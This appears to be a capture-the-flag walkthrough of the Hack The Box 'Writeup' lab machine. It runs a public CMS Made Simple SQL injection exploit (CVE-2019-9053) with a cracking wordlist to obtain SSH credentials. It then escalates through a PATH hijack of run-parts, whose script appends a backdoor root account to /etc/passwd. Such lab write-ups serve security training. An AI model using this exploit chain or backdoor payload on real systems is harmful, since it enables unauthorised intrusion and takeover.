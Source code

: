 # HTB-Writeup

Box: Writeup  
IP: 10.10.10.138

Browsing to ```http://10.10.10.138/``` we see a warning about an 'Eeyore DoS protection script' so we probably shouldn't do any dirbusting.

The ```/robots.txt``` file has a disallow in place for ```/writeup/``` so of course we'll want to check that out. 

The source code for ```http://10.10.10.138/writeup/``` shows the website is using CMS Made Simple. Running ```searchsploit CMS Made Simple``` shows a lot of results so we need to find out what version we're up against if we want to skid through. The copyright from the source code says 2019 so doing some searching indicates that 2.2.9 or 2.2.10 are the only versions released in that year. This seems like a safe starting point.

With a bit of research, and help from searchsploit, we see that CVE-2019-9053 is a SQL Inject vuln for 2.2.10 with an exploit already available in python. We'll try this one out, but always a good idea to read the source code first though to see what we're doing.

First we can tell that it's written in Python2, but we also want to know what the actual attack is. Looking at ```payload=``` we can see it's a blind SQL injection attack. A good indicator of this is the included ```sleep()``` function. There is also a function to crack the hash once obtained, so we'll give that a shot before trying hashcat. The cracking functionality seems pretty straightforward, running through a provided list using a salt+pw format. I'm going to use the rockyou list for this since everyone should already have a copy.

Let's try the exploit: ```python 46635.py -u http://10.10.10.138/writeup/ --crack -w rockyou.txt```


Password found and cracked!

```
[+] Salt for password found: *****
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: *****
[+] Password cracked: *****
```
*I removed the password, salt, and hash so I don't spoil all of the fun*


Now let's use this to SSH into the box ```ssh jkr@10.10.10.138```

Success, user account owned, so let's grab our first flag ```cat user.txt```

Always a good idea to get some basic ```id``` info to start, so we'll do that and save the information for later.

```uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)```

One thing to note though is the staff membership. In Debian this allows local modification to the system, so may be useful!

Ok so owning user was easy but now we need to get root. There is a great tool called ```pspy``` that we'll use for deeper analysis. It sets up inotify FileSystemWatchers to scan ```/proc/``` and also watch ```/usr``` for short-lived processes. This is a really great enumaration tool to have in your arsenal for path injection and privilege escalation vulns.

We'll copy pspy over to the server so we can use it ```scp pspy32 jkr@10.10.10.138:/home/jkr```

Once it's on the server we'll need to make it executable ```chmod +x pspy32.sh```

Then we'll launch it to monitor what's going on ```./pspy32.sh```

Start a new SSH session so we can monitor that action first. It's always a good idea to make sure both terminals are viewable so you can see new processes as they happen.

After playing around we can see that every successful SSH auth the following is run:

```sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new```

Let's go down the rabbit hole and see if we can abuse it. First of all we can see that something called ```run-parts``` gets executed every time. We can also see that it's being executed by relative path so we can probably hijack this.

If we dig deeper with ```which run-parts``` we see that by default it's in ```/bin/```, but if you look closely at the way env sets the path at login you'll see something interesting. When the path is set, ```/usr/bin/local``` is called before ```/usr/bin```. 

We saw earlier that our account was a member of staff, which we can see gives us the write access we need ```find / -group staff 2>/dev/null```

This means that we should be able to put our code in ```/usr/bin/local``` and have it execute next time we SSH into the box.

Time for some path injection.

Let's create a bash script the adds a new root user, then have that execute.

First we need to use openssl create a hash of our desired password ```openssl passwd writeup```

Now create the bash file, add our payload, and make it executable.

```cd /usr/local/bin/```

Create the hijack file: ```nano run-parts```

Add our payload text:
```
#!/bin/bash
echo 'rooot:qzhFLYLV9Mkkg:0:0:root:/root:/bin/bash' >> /etc/passwd
```

And make it executable: ```chmod +x run-parts``` 

Now start a new SSH session to trigger our script, and check the results with ```cat /etc/passwd```

You should see our new ```rooot``` user added with the correct UID and hash, so let's grab the flag.

```
su rooot
cd /root/
cat root.txt
```


"The only way of discovering the limits of the possible is to venture a little way past them into the impossible" - Arthur C. Clarke
